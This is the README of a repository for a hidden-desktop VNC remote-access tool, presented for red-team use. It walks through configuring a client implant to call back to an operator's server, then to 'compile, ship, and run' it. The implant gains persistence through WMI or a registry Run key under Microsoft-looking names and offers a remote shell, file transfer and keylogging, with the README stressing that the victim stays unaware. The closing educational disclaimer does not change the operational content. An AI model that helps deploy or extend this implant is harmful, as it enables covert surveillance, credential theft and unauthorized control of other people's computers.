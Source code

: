 # Headless VNC (HVNC) Toolkit

> A **stealth-first** remote-administration framework that spins up an **invisible Windows desktop** in memory and lets you drive it like a regular VNC session—only without the tell-tale screen flicker or user-side pop-ups.  
> Built for red-team operators who need *eyes-on-glass* access with the subtlety of a ghost.

---

## Repository Layout

| Path     | Role | Notes |
|----------|------|-------|
| **`server/`** | Server-side component | Accepts inbound HVNC tunnels, multiplexes sessions, prints each connection in its own console |
| **`client/`** | Client implant | Creates the hidden desktop, hooks keyboard / mouse, relays frames & input events |

> ⚠️ *Every new connection opens in a **separate console window***—handy for parallel ops and clean log separation.

---

## Supported Commands

| Constant | Action |
|----------|--------|
| `CMD_START_EXPLORER`     | Launch **Windows Explorer** (`explorer.exe`) |
| `CMD_START_RUN`          | Open the classic **Run / cmd prompt** (`cmd.exe`) |
| `CMD_START_CHROME`       | Launch **Google Chrome** |
| `CMD_START_EDGE`         | Launch **Microsoft Edge** |
| `CMD_START_BRAVE`        | Launch **Brave** |
| `CMD_START_FIREFOX`      | Launch **Mozilla Firefox** |
| `CMD_START_IEXPL`        | Launch **Internet Explorer** |
| `CMD_START_POWERSHELL`   | Open **PowerShell** |
| `CMD_SHELL_OPEN`         | Begin an **interactive remote shell** |
| `CMD_SHELL_COMMAND`      | Send a command to a shell already open |
| `CMD_FILE_LIST`          | Enumerate **files / folders** in a directory |
| `CMD_FILE_DOWNLOAD`      | **Download** a file from the remote box |
| `CMD_FILE_UPLOAD`        | **Upload** a file to the remote box |
| `CMD_KEYLOGGER_START`    | Start **key-logging** |
| `CMD_KEYLOGGER_STOP`     | Stop key-logging |

---

## Getting Started

1. **Server**

   ```
   cd server
   python server.py
   # 🖥️ The script will prompt for a **listening port** — use the same port as the client build.
   ```

2. **Client**

   *Edit* `client/main.cpp` – set:

   ```cpp
   constexpr auto HOST = "YOUR_SERVER_IP";
   constexpr uint16_t PORT = 4444;  // same as the server prompt
   ```

   Then compile, ship, and run.
   On first launch, the implant copies itself to:

   ```
   %LOCALAPPDATA%\Microsoft\Win32Components\
   ```

   and auto-starts at logon:

   * **Admin** → WMI subscription
   * **Standard user** → `Run` registry key

---

## Testing & Cleanup

Need a sterile host after the demo? Use the included PowerShell helper:

```powershell
# Remove artifacts, folders, autoruns
client\clean.ps1
```

### Manual WMI Check / Removal

```powershell
Get-WmiObject -Namespace root\subscription -Class __EventFilter `
  -Filter "Name='Microsoft_Win32Filter'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer `
  -Filter "Name='Microsoft_Win32Consumer'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | ForEach-Object { $_.Delete() }
```

**Verify all gone:**

```powershell
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | Format-List Filter, Consumer
```

---

## Why HVNC?

*Traditional* VNC mirrors the *user’s* active desktop—any mouse wiggle or window pop-up is visible. **Headless VNC** instead:

1. **Creates a brand-new, invisible desktop** (WinSta0\HVNC) in memory.
2. Runs spawned processes *inside that hidden session*—completely off-screen.
3. Streams the pixels (or GDI diffs) back to the operator with negligible latency.
4. Leaves the real user blissfully unaware—no taskbar flashes, no window focus steals.

In short: you get a **full UI foothold** with the stealth of a backdoor shell.

---

## OPSEC Highlights

* **Console-per-session** → easy kill-switch & minimal cross-noise.
* **Auto-persistence** adapts to privilege level (WMI vs. registry).
* **Keylogger** runs in-process—no DLL drop on disk.
* **WMI cleanup script** shipped for safe red-team eject.

*(Yes, there’s more on the roadmap: TLS tunneling, clipboard sync, multi-monitor capture—watch the commits!)*

---

## 🚫 Disclaimer

This repository is provided for **educational purposes only** and intended for **authorized security research**.
Any **unauthorized use**—including but not limited to illicit surveillance, system compromise, or privacy invasion—is **strictly prohibited**.


